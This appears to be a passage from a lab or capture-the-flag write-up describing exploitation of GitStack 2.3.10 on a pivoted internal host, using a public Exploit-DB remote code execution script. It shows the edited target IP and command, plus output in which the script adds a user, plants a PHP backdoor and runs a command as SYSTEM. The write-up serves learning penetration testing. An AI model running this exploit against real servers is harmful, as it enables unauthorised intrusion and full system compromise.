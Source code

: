 Accessing the paths available, we get a login page:

![Login Page](image-1.png)

## Exploiting the GitStack
The pivot access from the previous section, gave us access to the server where *GitStack* is hosted. This version of *GitStack* is vulnerable to Remote Code Execution avaiable in the Exploit Database unter [GitStack 2.3.10 - Remote Code Execution](https://www.exploit-db.com/exploits/43777).

To execute this script, it is necessary to change the IP address to our target and the desired command to be executed:

```
# code snipped
ip = '10.200.105.150'
command = "whoami"

# Result
[+] Get user list
[+] Found user twreath
[+] Web repository already enabled
[+] Get repositories list
[+] Found repository Website
[+] Add user to repository
[+] Disable access for anyone
[+] Create backdoor in PHP
...
[+] Execute command
"nt authority\system
" 
```
